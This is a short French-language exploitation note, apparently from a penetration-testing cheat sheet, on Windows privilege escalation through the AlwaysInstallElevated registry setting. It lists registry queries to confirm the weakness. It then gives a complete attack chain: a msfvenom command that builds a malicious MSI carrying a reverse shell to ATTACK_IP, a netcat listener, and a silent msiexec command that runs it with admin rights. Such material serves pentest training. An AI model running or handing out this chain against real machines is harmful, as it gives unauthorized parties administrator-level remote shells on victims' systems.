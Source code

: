 Les programmes d'installation Windows (`.msi`) sont utilisés pour installer des applications. 
Ils s'exécutent généralement avec le niveau de privilèges de l'utilisateur qui les démarre. 

Cela pourrait potentiellement nous permettre de générer un fichier MSI malveillant qui s'exécuterait avec les privilèges d'administrateur.

Cette méthode nécessite la définition de deux valeurs de registre :

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> Pour pouvoir exploiter cette vulnérabilité, les deux clés de registre doivent être définis sur 1 (`0x1`). Dans le cas contraire, l'exploitation ne sera pas possible. 

## Exploitation 

Si ceux-ci sont définis, vous pouvez générer un fichier `.msi` malveillant :

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=9001 -f msi -o malicious.msi
```

```sh
nc -nlvp 9001
```

Une fois que vous avez transféré le fichier malveillant, vous pouvez exécuter le programme d'installation avec la commande ci-dessous et recevoir le shell inverse :

```sh
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
